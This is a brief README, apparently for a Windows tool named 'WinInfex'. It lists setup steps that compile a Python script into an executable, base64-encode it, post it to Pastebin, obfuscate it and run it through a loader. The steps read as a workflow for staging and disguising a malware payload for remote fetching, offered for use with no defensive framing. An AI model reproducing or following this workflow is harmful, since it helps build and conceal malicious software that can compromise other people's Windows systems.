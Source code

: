 # WinInfex
# Setup on PowerShell 
- git clone https://github.com/vicouncil/WinInfex
- cd WinInfex
- cd resource 
- python -m PyInstaller --onefile winInfex.py
- cd dist
- [Convert]::ToBase64String([IO.File]::ReadAllBytes("winInfex.exe")) > base64.txt
- Post base64.txt file in pastebin
- Go to directory with obfuscator
- .\obfuscator.exe
- Move your .ifx file in directory ifxrunner
- .\ifxrunner.exe filename.ifx
